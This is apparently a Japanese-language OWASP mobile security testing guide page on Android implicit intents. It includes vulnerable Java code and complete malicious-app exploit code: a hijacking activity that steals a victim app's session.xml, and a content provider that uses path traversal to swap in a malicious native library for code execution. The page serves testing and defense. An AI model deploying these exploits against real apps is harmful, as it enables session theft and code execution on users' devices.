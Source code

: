```yaml
---
masvs_v1_id:
- MSTG-PLATFORM-2
masvs_v2_id:
- MASVS-CODE-4
platform: android
title: 暗黙的インテントのテスト (Testing Implicit Intents)
masvs_v1_levels:
- L1
- L2
profiles: [L1, L2]
---
```


## 概要

[暗黙的インテント](../../../Document/0x05h-Testing-Platform-Interaction.md#implicit-intents) をテストする際には、それらがインジェクション攻撃に対して脆弱であったり、機密データが漏洩する可能性があるかどうかをチェックする必要があります。

## 静的解析

Android Manifest を調べて、[<queries> ブロック](https://developer.android.com/guide/topics/manifest/queries-element "Android queries") 内で定義されている `<intent>` シグネチャ (アプリがやり取りする他のアプリのセットを指定) を探し、システムアクション (`android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, など) が含まれるかどうかをチェックし、それが出現するソースコードを閲覧します。

たとえば、以下の `Intent` は具体的なコンポーネントを指定しておらず、暗黙的インテントであることを意味しています。ユーザーに入力データを尋ねるために `android.intent.action.GET_CONTENT` アクションを設定し、アプリは `startActivityForResult` と画像選択を指定してインテントを開始します。

```java
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```

アプリは `startActivity` の代わりに `startActivityForResult` を使用し、結果 (この場合は画像) を期待していることを示しており、 `onActivityResult` コールバックを探してインテントの戻り値がどのように処理されるかをチェックする必要があります。インテントの戻り値が適切に検証されていない場合、攻撃者はアプリの内部ストレージ `/data/data/<appname>` から任意のファイルを読み取ったり、任意のコードを実行できる可能性があります。この種の攻撃の詳しい説明は [次のブログ記事](https://blog.oversecured.com/Interception-of-Android-implicit-intents " Current attacks on implicit intents") にあります。

### Case 1: 任意のファイルの読み取り

この例では、インテントの返り値の不適切な検証によって、攻撃者がどのようにしてアプリの内部ストレージ `/data/data/<appname>` 内から任意のファイルを読み取ることができるかを見ていきます。

以下の例の `performAction` メソッドは暗黙的インテントの戻り値を読み取ります。これは攻撃者が提供した URI である可能性があり、それを `getFileItemFromUri` に渡します。このメソッドはファイルを一時フォルダにコピーします。これはこのファイルが内部的に表示される場合に通常行われます。しかし、アプリが `getExternalCacheDir` や `getExternalFilesDir` を呼び出すなどして、URI で提供されたファイルを外部の一時ディレクトリに保存する場合、攻撃者は `android.permission.READ_EXTERNAL_STORAGE` パーミッションを設定した後でこのファイルを読み取ることができます。

```java
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}
```

以下は上記の脆弱なコードを悪用する悪意のあるアプリのソースです。

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```

ユーザーがインテントを処理するために悪意のあるアプリを選択した場合、攻撃者はアプリの内部ストレージから `session.xml` を盗むことができます。前の例では、被害者はダイアログで攻撃者の悪意のあるアプリを明示的に選択する必要があります。しかし、開発者はこのダイアログを抑制し、インテントの受信者を自動的に決定することもできます。これによりユーザーとの追加のやり取りなしで攻撃が発生する可能性があります。

以下のコードサンプルは受信者の自動選択を実装します。悪意のあるアプリのインテントフィルタに優先度を指定することで、攻撃者は選択シーケンスに影響を与えることができます。

```java
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```

### Case 2: 任意のコードの実行

被害者アプリが `content://` や `file://` URLを許可している場合、暗黙的インテントの不適切に処理された戻り値によって任意のコードが実行される可能性があります。

攻撃者は `public Cursor query(...)` を含む [`ContentProvider`](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider") を実装して、任意のファイル (この場合は _lib.so_) を設定できます。もし被害者が `copy` を実行してコンテンツプロバイダからこのファイルをロードすると、攻撃者の `ParcelFileDescriptor openFile(...)` メソッドが実行され、悪意のある _fakelib.so_ を返します。

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```

EvilContentProvider.java

```java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

## 動的解析

暗黙的インテントを動的にテストする便利な方法は、特に漏洩の可能性のある機密データを特定するには、Frida または frida-trace を使用して `startActivityForResult` と `onActivityResult` メソッドをフックし、提供されたインテントとそれに含まれるデータを検査することです。

